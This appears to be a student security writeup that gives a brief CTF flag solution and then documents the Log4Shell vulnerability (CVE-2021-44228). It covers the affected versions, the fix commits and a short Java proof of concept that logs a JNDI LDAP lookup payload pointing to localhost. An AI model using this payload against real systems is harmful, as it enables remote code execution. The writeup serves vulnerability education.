 ### Solution: CTF{FlaggyWaggyRaggy}

### Steps to reproduce

    - Visit https://www.base64decode.org/
    - Decrypt the provided key


# 3.  Known real-world software vulnerabilities

## CVE-2021-44228

Apache Log4j2 2.0-beta9 through 2.12.1 and 2.13.0 through 2.15.0 JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled. From log4j 2.15.0, this behavior has been disabled by default. From version 2.16.0, this functionality has been completely removed. Note that this vulnerability is specific to log4j-core and does not affect log4net, log4cxx, or other Apache Logging Services projects.

### source code version before detection of the vulnerability

2.12.1 and 2.13.0 through 2.15.0

### source code version released after the vulnerability was discovered

From log4j 2.15.0, this behavior has been disabled by default. From version 2.16.0, this functionality has been completely removed

### type of vulnerability

Remote code execution

### source code lines that are affected & fix

* [Restrict LDAP access via JNDI](https://gitbox.apache.org/repos/asf?p=logging-log4j2.git;h=c77b3cb)
* [Log4j2 no longer formats lookups in messages by default](https://github.com/apache/logging-log4j2/pull/607/commits/2731a64d1f3e70001f6be61ba5f9b6eb55f88822)

### exploit

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;


public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);

    public static void main(String[] args) {
        logger.error("${jndi:ldap://127.0.0.1:1389/a}");
    }
}
```
